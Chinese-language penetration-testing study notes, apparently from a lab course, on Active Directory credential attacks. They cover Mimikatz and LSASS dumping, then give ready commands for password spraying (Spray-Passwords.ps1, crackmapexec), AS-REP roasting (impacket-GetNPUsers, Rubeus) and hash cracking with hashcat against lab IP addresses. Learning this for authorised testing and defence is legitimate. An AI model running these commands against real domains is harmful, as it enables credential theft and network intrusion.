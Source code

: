 使用mimikatz，但避免将其作为独立应用程序使用。
可以使用像PowerShell这样的注入器直接从内存中执行Mimikatz，或者使用内置工具如任务管理器来转储整个LSASS进程内存，将转储的数据移动到辅助机器，然后将数据加载到Mimikatz中。

windows开启额外的LSA，LSA包括LSASS进程，windows防止从该进程读取内存

系统内可食用的hash算法
Windows 2003的AD实例，NTLM是唯一可用的哈希算法
Windows Server 2008或更高版本的实例，可能同时可用NTLM和SHA-1
win7上使用WDigest，mimikatz可提取明文

Keberos TGT 和 service ticket 会存储在LSASS中，mimikatz可提取

公钥基础设施（PKI）Public Key Infrastructure。
AD CS实现PKI，这个服务在经过身份验证的用户和可信资源之间交换数字证书。


### attack
#### password
##### password spraying 密码喷洒
1. LDAP ADSI
    ```bash
    powershell -ep bypass
    .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
    ```
2. SMB
    ```bash
    流量多 速度慢
    pwn3d >> 管理员权限
    crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
    ```
3. TGT
    ```bash
    ###kerbrute  
    https://github.com/ropnop/kerbrute
    
    ```

#### AS-REP Roasting
Keberos域认证默认开启

Keberos预认证：首先发送AS-REQ。根据此请求，域控制器可以验证身份验证是否成功。如果成功，域控制器将回复一个包含会话密钥和TGT的AS-REP。

AS-REP Roasting：没有Kerberos预身份验证时，攻击者可以代表任何AD用户向域控制器发送AS-REQ。在从域控制器获取AS-REP之后，攻击者可以对响应的加密部分进行离线密码攻击。

```bash
kali
###利用
kali> impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
工具默认生成的hash格式和hashcat相同
###破解
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt
-r /usr/share/hashcat/rules/best64.rule --force

win
###利用
win> .\Rubeus.exe asreproast /nowrap
###破解
hashcat
```
